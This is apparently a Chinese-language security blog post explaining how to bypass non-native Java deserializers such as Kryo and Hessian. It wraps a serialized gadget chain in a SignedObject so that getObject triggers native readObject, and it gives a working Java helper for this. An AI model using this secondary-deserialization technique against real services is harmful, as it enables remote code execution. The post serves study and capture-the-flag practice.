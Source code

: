 ```yaml
---
title: Java 反序列化绕过非原生反序列化器
date: 2023-06-14 20:31:48
categories:
- Java
tags:
- Deserialization
- RASP
toc: true
notshow: true
---
```




# 绕过非原生反序列化的限制
某些题目可能使用其他的反序列化器如 kryo、hessian 等，这些反序列化器的行为与原生的序列化与反序列化有所差异，使用这些反序列化器在反序列化时，并不会执行原生的 readObject 方法，从而导致一些 sink 点无法正常使用，例如 GTemplate。

TemplatesImpl 类中很多的属性都被 transient 关键字修饰，无法直接序列化，但在反序列化时，readObject 方法会将这些属性进行还原。

```java
private void  readObject(ObjectInputStream is)
    throws IOException, ClassNotFoundException
{
    ...

    // We have to read serialized fields first.
    ObjectInputStream.GetField gf = is.readFields();
    _name = (String)gf.get("_name", null);
    _bytecodes = (byte[][])gf.get("_bytecodes", null);
    _class = (Class[])gf.get("_class", null);
    _transletIndex = gf.get("_transletIndex", -1);

    _outputProperties = (Properties)gf.get("_outputProperties", null);
    _indentNumber = gf.get("_indentNumber", 0);

    if (is.readBoolean()) {
        _uriResolver = (URIResolver) is.readObject();
    }

    _tfactory = new TransformerFactoryImpl();
}
```
如果使用其他的反序列化器，就无法执行原生的 readObject 方法，这些属性无法被还原，也就无法正常利用。

## 二次反序列化绕过
二次反序列化通常用到 SignedObject 类，这个类的 getObject 方法会调用原生的 readObject 方法：
```java
public Object getObject()
    throws IOException, ClassNotFoundException
{
    // creating a stream pipe-line, from b to a
    ByteArrayInputStream b = new ByteArrayInputStream(this.content);
    ObjectInput a = new ObjectInputStream(b);
    Object obj = a.readObject();
    b.close();
    a.close();
    return obj;
}
```
借助二次反序列化，就可以在非原生反序列化器中触发原生反序列化链。

```java
public static java.security.SignedObject getter2Deserialize(byte[] serialBytes) throws Exception{
    KeyPairGenerator keyGen = KeyPairGenerator.getInstance("DSA", "SUN");
    SecureRandom random = SecureRandom.getInstance("SHA1PRNG", "SUN");
    keyGen.initialize(1024, random);

    PrivateKey signingKey = keyGen.generateKeyPair().getPrivate();

    Signature signingEngine = Signature.getInstance("DSA");
    signingEngine.initSign(signingKey);

    Serializable obj = new String("Whatever");

    SignedObject so = new SignedObject(obj, signingKey, signingEngine);
    ReflectUtils.setFieldValue(so,"content",serialBytes);
    return so;
}
```
# 参考资料
- [Kryo反序列化学习](https://blog.oversec.fun/kryo-deserialize-learn)